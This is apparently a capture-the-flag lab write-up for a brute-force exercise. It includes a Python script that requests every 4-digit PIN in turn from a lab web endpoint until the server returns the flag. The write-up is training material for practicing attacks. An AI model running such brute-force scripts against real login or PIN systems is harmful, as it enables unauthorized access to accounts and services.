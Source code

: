 # Brute Force Attacks

After successfully brute-forcing the PIN, what is the full flag the script returns?

This simple lab challenges us to to a simple brute force attack to a web application that requires a PIN for a special access.

To solve this we can you the script provided by the HTB:

{% code overflow="wrap" %}
```python
import requests

ip = "SERVER_IP"  # Change this to your instance IP address
port = SERVER_PORT       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```
{% endcode %}

Make sure to replace the IP e and PORT of your target machine.

Then just run the script and wait for the results:

```bash
python pin-solver.py
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After a while, the script eventually gets the PIN and we find our flag!
